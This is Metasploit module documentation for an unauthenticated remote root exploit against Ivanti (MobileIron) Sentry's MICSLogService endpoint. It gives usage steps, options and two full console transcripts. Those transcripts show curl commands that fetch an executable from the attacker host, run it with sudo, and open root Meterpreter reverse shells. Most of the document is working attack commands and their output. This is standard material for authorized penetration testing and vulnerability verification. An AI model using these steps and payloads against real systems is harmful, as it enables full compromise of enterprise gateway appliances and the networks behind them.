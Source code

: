 ## Vulnerable Application
Ivanti Sentry (formerly Mobileiron Sentry) is vulnerable to an authentication by-pass which exposes API functionality which
allows for code execution in the context of the root user. The vulnerable endpoint `/mics/services/MICSLogService` exposes
a binary web service protocol 'Hessian' which allows remote users to invoke functions within the target. One of the functions
accessible via Hessian and the vulnerable endpoint is `uploadFileUsingFileInput` which accepts a `command` argument
that gets directly fed into a `Runtime.getRuntime().exec(cmd)` call. The command is run in the context of the `tomcat2`
user however by default `tomcat2` is able to execute commands with sudo thus we can use this to execute the payload in the context
of the `root` user.


## Verification Steps
1. Start `msfconsole`
1. Do: `use exploit/linux/http/ivanti_sentry_misc_log_service`
1. Do: `set RHOST [IP]`
1. Do: `set FETCH_SRVHOST [IP]`
1. Do: `set LHOST [IP]`
1. Do: `exploit`


### Installation
A vulnerable instance of the software can be downloaded with the following
[link](https://mobileironsentry.blob.core.windows.net/mobileironsentrycontainer/sentry-mobileiron-9.12.0-16.vhd)
(note the .vhd file is ~34 GB). Once downloaded, import the file into your favorite hypervisor to run the software.
VMware Fusion 12 with the Sentry VM configured with a bridged network adapter worked out of the box for testing the module.

## Options

### SLEEP
Because the execution context does not allow for command piping or chaining we need to split the multi command payload
by semi-colon and send each command individually. This delay specifies how long to wait for each command to run.

### USE_SUDO
The command is executed in the context of the `tomcat2` user. By default the `tomcat2` user has the ability to execute
commands with `sudo`. In the event Sentry is installed on an OS that doesn't have the `sudo` binary, this has been left
has a configurable option in case it needs to be disabled.

## Scenarios

### MobileIron Sentry 9.12.0-16 (Unix In Memory)
```
msf6 > use linux/http/ivanti_sentry_misc_log_service
[*] Using configured payload cmd/linux/http/x64/meterpreter_reverse_tcp
msf6 exploit(linux/http/ivanti_sentry_misc_log_service) > set rhosts 192.168.1.78
rhosts => 192.168.1.78
msf6 exploit(linux/http/ivanti_sentry_misc_log_service) > set lhost 192.168.1.72
lhost => 192.168.1.72
msf6 exploit(linux/http/ivanti_sentry_misc_log_service) > set fetch_srvhost 192.168.1.72
fetch_srvhost => 192.168.1.72
msf6 exploit(linux/http/ivanti_sentry_misc_log_service) > set verbose true
verbose => true
msf6 exploit(linux/http/ivanti_sentry_misc_log_service) > options

Module options (exploit/linux/http/ivanti_sentry_misc_log_service):

   Name           Current Setting  Required  Description
   ----           ---------------  --------  -----------
   SLEEP  3                yes       How long to wait for each command to run. Because the execu
                                             tion context does not allow for command piping or chaining
                                             we need to split the multi command payload by semi-colon an
                                             d send each command individually
   Proxies                         no        A proxy chain of format type:host:port[,type:host:port][...
                                             ]
   RHOSTS         192.168.1.78     yes       The target host(s), see https://docs.metasploit.com/docs/us
                                             ing-metasploit/basics/using-metasploit.html
   RPORT          8443             yes       The target port (TCP)
   SSL            true             no        Negotiate SSL/TLS for outgoing connections
   SSLCert                         no        Path to a custom SSL certificate (default is randomly gener
                                             ated)
   URIPATH                         no        The URI to use for this exploit (default is random)
   USE_SUDO       true             yes       Execute payload as root using sudo
   VHOST                           no        HTTP server virtual host


   When CMDSTAGER::FLAVOR is one of auto,tftp,wget,curl,fetch,lwprequest,psh_invokewebrequest,ftp_http:

   Name     Current Setting  Required  Description
   ----     ---------------  --------  -----------
   SRVHOST  0.0.0.0          yes       The local host or network interface to listen on. This must be an
                                        address on the local machine or 0.0.0.0 to listen on all address
                                       es.
   SRVPORT  8080             yes       The local port to listen on.


Payload options (cmd/linux/http/x64/meterpreter_reverse_tcp):

   Name                Current Setting  Required  Description
   ----                ---------------  --------  -----------
   FETCH_COMMAND       CURL             yes       Command to fetch payload (Accepted: CURL, FTP, TFTP, T
                                                  NFTP, WGET)
   FETCH_DELETE        false            yes       Attempt to delete the binary after execution
   FETCH_FILENAME      QldLjjMRU        no        Name to use on remote system when storing payload; can
                                                  not contain spaces.
   FETCH_SRVHOST       192.168.1.72     no        Local IP to use for serving payload
   FETCH_SRVPORT       8080             yes       Local port to use for serving payload
   FETCH_URIPATH                        no        Local URI to use for serving payload
   FETCH_WRITABLE_DIR  /tmp             yes       Remote writable dir to store payload; cannot contain s
                                                  paces.
   LHOST               192.168.1.72     yes       The listen address (an interface may be specified)
   LPORT               4443             yes       The listen port


Exploit target:

   Id  Name
   --  ----
   0   Unix (In-Memory)



View the full module info with the info, or info -d command.

msf6 exploit(linux/http/ivanti_sentry_misc_log_service) > exploit
[*] Reloading module...

[*] Command to run on remote host: curl -so /tmp/ccrjHXsc http://192.168.1.72:8080/etRbFA76UzDRclkL8zrTdg; chmod +x /tmp/ccrjHXsc; /tmp/ccrjHXsc &
[*] Fetch Handler listening on 192.168.1.72:8080
[*] HTTP server started
[*] Adding resource /etRbFA76UzDRclkL8zrTdg
[*] Started reverse TCP handler on 192.168.1.72:4443
[*] Running automatic check ("set AutoCheck false" to disable)
[+] The target appears to be vulnerable.
[*] Executing Unix (In-Memory) for cmd/linux/http/x64/meterpreter_reverse_tcp
[*] Running the command: sudo curl -so /tmp/ccrjHXsc http://192.168.1.72:8080/etRbFA76UzDRclkL8zrTdg
[*] Client 192.168.1.78 requested /etRbFA76UzDRclkL8zrTdg
[*] Sending payload to 192.168.1.78 (curl/7.29.0)
[*] Running the command: sudo  chmod +x /tmp/ccrjHXsc
[*] Running the command: sudo  /tmp/ccrjHXsc &
[*] Meterpreter session 6 opened (192.168.1.72:4443 -> 192.168.1.78:40550) at 2023-08-29 14:27:57 -0400

meterpreter > getuid
Server username: root
meterpreter > sysinfo
Computer     : localhost.localdomain
OS           : CentOS 7.8.2003 (Linux 3.10.0-1160.el7.x86_64)
Architecture : x64
BuildTuple   : x86_64-linux-musl
Meterpreter  : x64/linux
meterpreter > exit
```

### MobileIron Sentry 9.12.0-19 (Linux Dropper)

```
msf6 exploit(linux/http/ivanti_sentry_misc_log_service) > set rhosts 192.168.1.78
rhosts => 192.168.1.78
msf6 exploit(linux/http/ivanti_sentry_misc_log_service) > set lhost 192.168.1.72
lhost => 192.168.1.72
msf6 exploit(linux/http/ivanti_sentry_misc_log_service) > set verbose true
verbose => true
msf6 exploit(linux/http/ivanti_sentry_misc_log_service) > set target 1
target => 1
msf6 exploit(linux/http/ivanti_sentry_misc_log_service) > run

[*] Started reverse TCP handler on 192.168.1.72:4443
[*] Running automatic check ("set AutoCheck false" to disable)
[+] The target appears to be vulnerable.
[*] Executing Linux Dropper for linux/x64/meterpreter/reverse_tcp
[*] Using URL: http://192.168.1.72:8080/vgrmjQ1
[*] Generated command stager: ["curl -so /tmp/NCAcpzqb http://192.168.1.72:8080/vgrmjQ1;chmod +x /tmp/NCAcpzqb;/tmp/NCAcpzqb;rm -f /tmp/NCAcpzqb"]
[*] Running the command: sudo curl -so /tmp/NCAcpzqb http://192.168.1.72:8080/vgrmjQ1
[*] Client 192.168.1.78 (curl/7.29.0) requested /vgrmjQ1
[*] Sending payload to 192.168.1.78 (curl/7.29.0)
[*] Running the command: sudo chmod +x /tmp/NCAcpzqb
[*] Running the command: sudo /tmp/NCAcpzqb
[*] Transmitting intermediate stager...(126 bytes)
[*] Sending stage (3045380 bytes) to 192.168.1.78
[*] Meterpreter session 7 opened (192.168.1.72:4443 -> 192.168.1.78:40572) at 2023-08-29 14:28:22 -0400
[*] Running the command: sudo rm -f /tmp/NCAcpzqb
[*] Command Stager progress - 100.00% done (112/112 bytes)
[*] Server stopped.

meterpreter > getuid
Server username: root
meterpreter > sysinfo
Computer     : localhost.localdomain
OS           : CentOS 7.8.2003 (Linux 3.10.0-1160.el7.x86_64)
Architecture : x64
BuildTuple   : x86_64-linux-musl
Meterpreter  : x64/linux
```


